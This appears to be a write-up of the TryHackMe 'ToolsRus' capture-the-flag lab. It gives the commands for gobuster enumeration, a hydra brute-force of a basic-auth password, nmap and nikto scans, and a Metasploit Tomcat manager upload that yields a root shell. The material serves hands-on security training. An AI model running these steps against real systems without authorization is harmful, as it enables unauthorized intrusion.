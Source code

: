 ```yaml
---

title: Walkthrough - ToolsRus
published: true
---
```


[https://tryhackme.com/room/toolsrus](https://tryhackme.com/room/toolsrus)

* * *

## Hacking

We get to use the following tools

- Dirbuster
- Hydra
- Nmap
- Nikto
- Metasploit

```shell
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)

22/tcp   open  ssh     syn-ack ttl 61
80/tcp   open  http    syn-ack ttl 61
1234/tcp open  hotline syn-ack ttl 61
8009/tcp open  ajp13   syn-ack ttl 61
```

* * * 

## What directory can you find, that begins with a "g"?

- ``gobuster dir -u http://10.10.192.13/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -x txt,html,php --no-error``

* * * 

## Whose name can you find from this directory?

- Visit ``/guidelines/`` - bob

* * * 

## What directory has basic authentication?

- ``/protected/``

* * * 

## What is bob's password to the protected part of the website?

- ``hydra -l bob -P /usr/share/seclists/Passwords/rockyou.txt 10.10.192.13 http-get /protected``
- ``[80][http-get] host: 10.10.192.13   login: bob   password: bubbles``

* * * 

## What other port that serves a webs service is open on the machine?

- ``sudo nmap -Pn -sS -p- -T4 10.10.192.13 -vvv``

* * * 

## Going to the service running on that port, what is the name and version of the software?

Answer format: Full_name_of_service/Version

- Apache Tomcat/7.0.88

* * * 

## Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

How many documentation files did Nikto identify?

- ``nikto -h http://10.10.192.13:1234/manager/html -id bob:bubbles -Format xml -o niktoscan``
- scan took a few hours...

* * * 

## What is the server version (run the scan against port 80)?

- ``nmap -sV -sT -p22,80,8009 -T4 10.10.192.13 -vvv``

* * * 

## What version of Apache-Coyote is this service using?

- ``nmap -sV -sT -p22,80,8009 -T4 10.10.192.13 -vvv``

* * * 

## Use Metasploit to exploit the service and get a shell on the system.

- ``multi/http/tomcat_mgr_upload``

**What user did you get a shell as?**

- root

**What text is in the file /root/flag.txt**

- ``cat flag.txt``

* * * 